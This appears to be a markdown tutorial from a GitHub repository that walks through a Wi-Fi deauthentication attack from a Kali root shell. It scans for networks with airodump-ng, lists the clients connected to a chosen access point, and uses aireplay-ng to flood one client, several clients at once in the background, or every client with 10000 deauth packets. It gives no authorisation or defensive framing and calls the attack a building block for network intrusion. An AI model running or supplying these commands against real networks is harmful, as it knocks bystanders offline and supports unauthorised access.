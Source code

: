 ## Deauth-Attack

Every information security enthusiast probably  know this basic  deauthentication attack, and if you don't  know no need to worry this writeup will give a indepth knowledge about deauthentication attack.

---

##### WHAT IS DEAUTHENTICATION ATTACK ?

- It disconnects any client from your network
- No need to connect to that network
- No need to know its key
- Works against all wifi networks
  - WEP
  - WPA
  - WPA2

**This is done by the tool <mark> aireplay -ng </mark>**

> We are illustrating this attack in **wlan0** interface

The classic command to know about all networks near you is

STEP 1:

```bash
root@kali:~# airodump-ng wlan0

```

So you using the above command target  any desired network by specifying is's *channel(ch)* and *bssid*  to know all the clients connected to that specific network.

STEP: 2

```bash
root@kali:~# airodump-ng --channel 1  -- bssid  56:13:58:76:5B:55 wlan0

```
You will get something like This

```bash
CH  1 ][ Elapsed: 30 s ][ 2020-05-05 16:35                                

BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID

56:13:58:76:5B:55  -34 100      213       64    0   1  360  WPA2 CCMP   PSK  OnePlus 7T           

BSSID              STATION            PWR   Rate    Lost    Frames  Probe                         

56:13:58:76:5B:55  38:F9:D3:8A:D4:87  -30    1e-24      0       36                                 
56:13:58:76:5B:55  20:82:C0:7F:77:9B  -32    0e- 6      0       71                                 
56:13:58:76:5B:55  08:00:27:E6:E5:59  -33    54-1       0       50
root@kali:~#

```
Now you can deauthenticate any client as your wish by the below command


```bash

root@kali:~# aireplay-ng --deauth 10000 -a (MAC ADDRESS OF TARGET ACCESS POINT) -c (MAC ADDRESS OF MACINE TO DISCONNET) wlan0

```

- MAC ADDRESS OF TARGET ACCESS POINT: BSSID
- MAC ADDRESS OF MACINE TO DISCONNET: STATION
- 10000: packets using to deauthenticate

STEP 3: (IN ANOTHER TAB)
![](img/de/n3.png)


This will do your job but once you do this your bash screen will overflow and stuck by packets message and you can't write and more commands in bash.

**But what if you want to deauthenticate multiple clients ?**  

So here we have the solution to our above problem:

**Run aireplay-ng .... multiple times to deauthenticate multiple clients**

TIPS:
- Use  **&** at the end of the command to run it in the
- Use  **&>/dev/null** to redirect output to null

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &

```
Hit Enter


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~#

```
You will get an job id and bash will allow you to run any command and job will be running in background.

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null
[2] 14785
root@kali:~#

```

- You can use **jobs** to see commands running in the background and **kill** to stop a specific job

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[1] 14766
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &
[2] 14785
root@kali:~#jobs
[1]- Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 08:00:27:E6:E5:59 wlan0 &> /dev/null &
[2]+ Running             aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 -c 20:82:C0:7F:77:9B wlan0 &> /dev/null &

```

Here you go smoothly in deauthenticating multiple clients . **But what if you want to disconnect all the devices**

To **disconnect** all clients connected to specific network

- Run the same **aireplay-ng** command
- Set the **BSSID** of target of NETWORK
- Omit the -c arguments (the client argument)


```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```
Hit enter and you will successfully disconnect all the clients from that specific network.
>But if you get some **error** than follow the below commands to avoid error:

STEP1:

```bash
root@kali:~# airodump-ng wlan0

```
It will list all networks select the bssid and channel to deauthenticate all clients.


STEP 2:
```bash
root@kali:~# airodump-ng  --bssid 56:13:58:76:5B:55  --channel 1  wlan0

```

STEP3: (Run this in another TAB)

```bash
root@kali:~# aireplay-ng --deauth 10000 -a 56:13:58:76:5B:55 wlan0

```

See deauthentication attack is required in many  attack,  you can treat it as a small part of many network accessing attacks so keep a good grip on it.


**Author** - [Error](https://github.com/Error-200)
